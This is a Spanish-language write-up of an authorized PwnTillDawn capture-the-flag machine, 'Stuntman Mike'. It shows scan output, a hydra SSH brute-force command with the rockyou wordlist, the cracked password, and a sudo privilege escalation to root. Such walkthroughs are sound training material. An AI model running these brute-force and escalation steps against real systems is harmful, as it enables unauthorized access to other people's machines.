



# WRITEUP Stuntman Mike

### ESCANEO
#### 10.150.150.166	Linux	Easy
```
PORT     STATE SERVICE
22/tcp   open  ssh
8089/tcp open  unknown
```

Al escanear la ip, podemos ver que solamente hay 2 puertos abiertos. El servicio ssh y posiblemente splunk (8089)


### ENUMERACIÓN

Al identificar las versiones de esos servicios nos muestra lo siguiente:
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 63 OpenSSH 7.6p1 (protocol 2.0)
8089/tcp open  ssl/http syn-ack ttl 63 Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-10-25T09:15:13
| Not valid after:  2022-10-24T09:15:13
| MD5:   a81b a4c7 ea97 ebc8 7f73 310f e279 3eb2
| SHA-1: 6bd8 1aeb bb06 78e8 33ff 3419 27c9 6b03 4d72 44c1

```

al ingresar por el navegador al puerto 8089 vemos la version de splunk y al parecer no hay vulnerabilidades publicas para dicha versión.



Sólo nos queda el servicio ssh, pero su versión tampoco tiene vulnerabilidades publicas criticas. Lo único que nos queda es realizar fuerza bruta y ver si tenemos suerte.

### EXPLOTACIÓN 

Al intentar ingresar como root al servicio ssh, nos percatamos que hay un banner personalizado y con ella viene una flag. Lo cual me hace pensar que el camino es por ahí. 
Si prestamos atención, hay un usuario potencial que podemos utilizar para realizar bruteforce.



Para ello utilizaré hydra y como diccionario utilizaré rockyou junto al usuario Mike, ya que en el banner viene escrito algo como "You are attempting to login to stuntman mike's server"

`hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://10.150.150.166`
 
 Tras realizar la fuerza bruta encontramos una contraseña, "babygirl" que nos da acceso por ssh.



La siguiente flag la encontramos en el mismo directorio.

```
mike@stuntmanmike:~$ pwd
/home/mike
mike@stuntmanmike:~$ ls
FLAG36
```


Después para elevar privilegios, basta con ejecutar sudo -l y podemos ver que el usuario mike está agregado a los sudoers del sistema. Por lo que podemos acceder directamente al directorio /root/ y encontrar la ultima flag.
```
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: babygirl
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
mike@stuntmanmike:~$ sudo su
root@stuntmanmike:/home/mike# cd /root
root@stuntmanmike:~# ls
FLAG37
```

Contacto: [Linkedin](www.linkedin.com/in/JairR) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
